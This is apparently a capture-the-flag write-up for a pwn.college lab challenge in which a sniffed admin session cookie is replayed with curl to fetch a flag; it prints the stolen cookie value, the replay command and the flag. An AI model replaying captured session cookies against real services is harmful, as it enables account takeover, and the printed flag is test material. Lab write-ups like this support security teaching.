

# Problem

You have learned to sniff traffic, but knowledge is only the beginning of action. Now it's time to apply this to an actual security scenario. Steal the admin's cookie, and GET the flag!

HINT: You can use your full set of HTTP tools, as you studied in Talking Web, to use the cookie once you steal it! But whatever you do, make sure to do it in the 10.0.0.1 terminal, to make sure you're running on the right host! You can run Wireshark or whatever else you need in the background (as you learned in The Linux Luminarium).

# Solution

## 1. use wiresharl to capture the HTTP traffic and get the cookie

session=eyJ1c2VyIjoiYWRtaW4ifQ.aHppkA.hCH2z6mcgMfLjKYMuktPW8IvEhk



## 2. Access some paths with the cookie

Guess the path `/flag`:


```
root@ip-10-0-0-1:/challenge# curl --cookie "session=eyJ1c2VyIjoiYWRtaW4ifQ.aHppkA.hCH2z6mcgMfLjKYMuktPW8IvEhk" http://10.0.0.2/flag
pwn.college{kgYUTg2IHnw6iElXx-2RR_Vc8ZD.0VM0AjNxwCM0YjMyEzW}
```
